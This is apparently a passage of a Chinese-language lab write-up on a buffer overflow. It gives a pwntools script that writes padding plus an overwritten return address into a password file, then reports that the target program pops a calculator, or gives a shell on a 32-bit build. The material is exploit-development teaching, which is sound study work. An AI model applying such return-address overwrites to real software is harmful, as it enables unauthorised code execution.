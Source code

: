   完整 [getcalc.py](./getcalc.py)

  ```py
  from pwn import *

  # 32bit:
  # payload = b'a'*0x1c + p32(0x8049276)
  # with open ('password32.txt','wb') as f:
  #     f.write(payload)

  # 64bit
  payload = b'a'* 0x1c + p64(0x401550)
  with open ('password32.txt','wb') as f:
      f.write(payload)
  ```

---

## 结果展示

- password.txt 与 program.exe 在一个文件夹中，双击运行，可弹出计算器，并且显示`You have been pwned`

![](./img/getcalc.gif)

- 在 program32 中同理，在 `WSL2` 的Ubuntu环境下，运行`./program32` , 可以getshell
